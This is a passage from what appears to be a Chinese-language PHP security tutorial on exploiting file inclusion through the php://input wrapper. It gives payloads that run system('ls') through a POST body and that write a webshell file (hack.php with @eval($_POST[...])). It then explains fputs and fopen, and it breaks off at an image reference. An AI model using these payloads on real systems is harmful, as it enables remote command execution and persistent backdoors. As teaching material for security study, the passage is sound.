 后面的注释的php代码需要通过post传递。

{% hint style="info" %}
当出现file\_get\_contents函数时，我们就要想到用php://input了
{% endhint %}

#### ②执行命令

```url
http://******.php/?file=php://input
/*[post]
<?php system('ls');?>*/
```

#### ③写入木马

```url
http://******.php/?file=php://input
/*[post]
<?php fputs(fopen('hack.php','w'),'<?php @eval($_POST['123456'])?>');?>*/
```

解释一下上面的php语句吧。可能因为之前没有见到过可能不太理解。这里了解两个函数之后就容易理解了，就是后面的木马代码是写入到前面fopen打开的文件里面的。

> fputs（）/fwrite()：写入文件
>
> 并且是把data写入到scream里面。
>
> ```php
> fwrite(resource $stream, string $data, ?int $length = null): int|false
> ```

> fopen():打开文件或者url。
>
> filename可以是文件，可以是url。
>
> ```php
> fopen(string $filename, string $mode,bool $use_include_path = false,?resource $context = null
> ): resource|false
> ```
>
> 并且模式和c语言打开文件一样这里贴张图大家看吧
>
>
